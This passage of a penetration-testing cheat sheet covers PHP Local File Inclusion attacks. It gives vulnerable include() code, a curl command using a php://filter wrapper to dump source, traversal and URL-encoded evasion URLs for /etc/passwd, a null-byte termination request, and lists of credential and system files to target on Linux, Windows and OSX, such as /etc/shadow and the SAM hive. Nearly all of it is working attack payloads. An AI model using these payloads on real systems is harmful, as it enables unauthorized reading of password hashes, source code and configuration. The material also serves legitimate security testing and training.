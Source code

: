     -   For Local File Inclusions look for the include() function in PHP
        code.  
        include("lang/".$\_COOKIE\['lang'\]);  
        include($\_GET\['page'\].".php");

    -   LFI - Encode and Decode a file using base64  
        curl -s
        http://$ip/?page=php://filter/convert.base64-encode/resource=index
        | grep -e '\[^\\ \]\\{40,\\}' | base64 -d

    -   LFI - Download file with base 64 encoding  
        [*http://$ip/index.php?page=php://filter/convert.base64-encode/resource=admin.php*](about:blank)

    -   LFI Linux Files:  
        /etc/issue  
        /proc/version  
        /etc/profile  
        /etc/passwd  
        /etc/passwd  
        /etc/shadow  
        /root/.bash\_history  
        /var/log/dmessage  
        /var/mail/root  
        /var/spool/cron/crontabs/root

    -   LFI Windows Files:  
        %SYSTEMROOT%\\repair\\system  
        %SYSTEMROOT%\\repair\\SAM  
        %SYSTEMROOT%\\repair\\SAM  
        %WINDIR%\\win.ini  
        %SYSTEMDRIVE%\\boot.ini  
        %WINDIR%\\Panther\\sysprep.inf  
        %WINDIR%\\system32\\config\\AppEvent.Evt

    -   LFI OSX Files:  
        /etc/fstab  
        /etc/master.passwd  
        /etc/resolv.conf  
        /etc/sudoers  
        /etc/sysctl.conf

    -   LFI - Download passwords file  
        [*http://$ip/index.php?page=/etc/passwd*](about:blank)  
        [*http://$ip/index.php?file=../../../../etc/passwd*](about:blank)

    -   LFI - Download passwords file with filter evasion  
        [*http://$ip/index.php?file=..%2F..%2F..%2F..%2Fetc%2Fpasswd*](about:blank)

    -   Local File Inclusion - In versions of PHP below 5.3 we can
        terminate with null byte  
        GET
        /addguestbook.php?name=Haxor&comment=Merci!&LANG=../../../../../../../windows/system32/drivers/etc/hosts%00
